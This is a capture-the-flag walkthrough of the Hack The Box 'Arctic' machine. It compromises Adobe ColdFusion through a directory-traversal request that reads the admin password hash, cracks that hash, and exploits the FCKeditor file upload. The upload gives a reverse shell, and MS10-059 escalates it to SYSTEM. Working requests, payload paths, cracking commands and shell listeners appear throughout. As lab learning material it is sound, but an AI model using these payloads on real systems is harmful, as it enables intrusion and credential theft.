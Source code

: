 
### Index
1. Locating nmap NSE script 
2. Enumerating RPC
3. Adobe Cold Fusion FCKEditor File upload vulnerability. [CVE-2009-2265](https://www.exploit-db.com/exploits/50057)
4. Upgrading the NetCat Shell (Gained by executing the python exploit) to Meterpreter shell and then running local exploit suggester.
5. MS10-059: Chimichurri was used for Priv Esc.



Initial Enumeration (subdomain, vhosts, directories/files)

```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.11 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 00:49 EDT
Nmap scan report for arctic.htb (10.10.10.11)

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Just because port 135 is open. Trying out RPC Enum
```
$ locate -r nse$ | grep msrpc  
/usr/share/nmap/scripts/msrpc-enum.nse

$ sudo nmap -p135 --script=msrpc-enum -sS -sC -sV 10.10.10.11
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
```

Upon access the site on port 8500, the CVE-2010-2861 Directory Traversal Vulnerability was present. I read the [PoC ](https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2010-2861/README.md) and found the backend admin password.
```
Request:
GET /CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en HTTP/1.1
Host: arctic.htb:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: CFID=200; CFTOKEN=84509656
Upgrade-Insecure-Requests: 1

Response:
<title>#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true</title>
```

using auxiliary/scanner/http/coldfusion_locale_traversal in msf
```
use auxiliary/scanner/http/coldfusion_locale_traversal
```

Trying to identify the hash as well
```
$>$hashid 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 

```

Cracking the above hash and got the admin password for Adobe Coldfusion
```
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday  

If you have cracked the above hash and you'd like to re-crack it for the demonstration purpose than you can use the following command
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt --show
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday 
```

After digging into Admin Panel, I did not find any place to host my reverse Shell. I was able to create archives, backups, connectors but nothing was helping me to host my shell. Under the system settings in Admin panel, i notice that the user 'tolis' is mention and the adobe cold fusion is deployed as user 'tolis'. I googled ColdFusion RCE and found this [Exploit-DB](https://www.exploit-db.com/exploits/50057) exploit which is CVE-2009-2265. The vulnerability exist in FCKeditor and the path to upload files is unrestricted. However, I was not able to locate where is the FCKeditor from the Admin panel. I have the exploit. Felt like I'm just a noob that don't know what the exploit is doing. But Reading the [GitHub Repo](https://github.com/0xConstant/CVE-2009-2265 ) make little bit things clear in my brain. 

After reading [This Article](https://codewatch.org/2013/12/07/manually-penetrating-the-fckedit-vulnerability-cve-2009-2265/) Things were little bit clear that during my earlier enumeration, I forgot to take a look at the following path when I open http://arctic.htb:8500/ 
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
```

Now the Exploit-DB exploit that I have used earlier, make sense that my JSP shell is being uploaded to the following location.
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00
```

I have the path present on my target and I use the exploit to capture the Tolis user flag. 

# Shell Upgrading Notes

My python exploit code has the following line. 
```
os.system(f'nc -nlvp {lport}')
```

I comment out the above line in the python exploit and use the following msf module to start the netcat listener so that I can capture the meterpreter shell instead of the netcat shell.
```
msf>use exploit/multi/handler
msf>set LHOST 10.10.16.5
msf>set LPORT 4444
msf>run
[*] Started reverse TCP handler on 10.10.16.5:4444 

[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.11:55411) at 2024-08-06 00:15:27 -0400

Now use CTRL+Z to throw the shell in the background and use 'local_exploit_suggester'. For this machine it was not helpful. Still i tried.
```

# Privilege Escalation 

### Initial Enum using winPEAS.bat

UAC is Enabled. but according to HackTricks, I need a GUI access
```
 [+] UAC Settings                                                                                                                                                       
   [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on                                                                            
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access           
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System                                                                            
    EnableLUA    REG_DWORD    0x1
```

I tried mimikatz.exe and I did not have any good luck there. Reading the Machine Info on Hack The Box, i notice that it was mention that "privilege escalation is achieved using the MS10-059 exploit. " [This Exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled) was used to obtained the Administrator Shell and root flag.

```
$ nc -lvnp 8000                                                                      
listening on [any] 8000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 55575
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Documents>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>more root.txt
more root.txt
fcb***********************
```

